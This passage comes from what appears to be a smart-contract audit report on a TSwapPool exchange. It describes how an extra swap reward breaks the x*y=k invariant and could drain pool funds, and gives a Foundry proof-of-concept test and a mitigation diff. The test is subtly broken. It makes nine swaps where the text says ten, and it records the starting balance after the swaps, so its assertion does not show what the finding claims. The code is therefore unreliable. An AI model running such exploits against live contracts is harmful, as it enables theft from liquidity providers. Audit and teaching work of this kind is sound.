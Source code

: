 ### Proof of Concept
1. A user swaps 10 times, and collects the extra incentive of `1_000_000_000_000_000_000` tokens.
2. That user continues to swap until all the protocol funds are drained.

For a concrete proof of the exploit, place the following into `TSwapPool.t.sol`.

´´´solidity
    function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        vm.stopPrank();
        
        int256 startingY = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaY = int256(-1) * int256(outputWeth);
        uint256 endingY = weth.balanceOf(address(pool)); 
        int256 actualDeltaY = int256(endingY) - int256(startingY);
        assertEq(actualDeltaY, expectedDeltaY);
    }
```

### Recommended Mitigation

Remove the extra incentive mechanism. If you want to keep this in, we should account for the change in the `x * y = k` protocol invariant. Or, we should set aside tokens in the same way we do with fees.

```diff
-   swap_count++;
-   if (swap_count >= SWAP_COUNT_MAX) {
-       swap_count = 0;
-       outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
-   }
```

## [M-1] `TSwapPool::deposit` is missing deadline check causing transactions to complete even after the deadline
